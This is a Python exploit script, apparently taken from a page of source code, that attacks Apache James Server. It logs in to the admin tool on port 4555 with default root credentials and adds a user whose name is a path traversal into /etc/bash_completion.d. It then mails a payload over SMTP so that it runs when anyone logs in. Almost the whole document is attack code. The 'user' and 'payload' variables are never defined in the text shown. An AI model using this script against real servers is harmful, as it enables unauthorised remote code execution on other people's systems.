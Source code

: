 ```python
pwd = 'root'

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]

def recv(s):
        s.recv(1024)
        time.sleep(0.2)

try:
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()

    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
except:
    print "Connection failed."

```
